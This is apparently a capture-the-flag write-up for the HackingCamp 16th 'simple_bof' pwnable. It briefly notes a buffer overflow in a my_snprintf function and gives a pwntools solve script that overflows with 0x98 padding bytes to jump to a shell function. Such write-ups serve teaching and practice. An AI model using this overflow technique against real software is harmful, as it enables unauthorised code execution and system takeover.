



# PoC HackingCamp 16th Pwnable simple_bof

## Binary Analysis



The main function has some input functions and is not vulnerable.



But, in `my_snprintf` function, It has `buffer overflow` vuln.

When I exploit, this function will help.



## Solve Code

```python
from pwn import *

# context.log_level = "DEBUG"
context.arch = "amd64"

e = ELF("./simple_bof")
p = process("./simple_bof")

p.sendlineafter(">", "4")
p.sendlineafter("\n", flat("A"*0x98, e.symbols["shell"]))

p.interactive()
```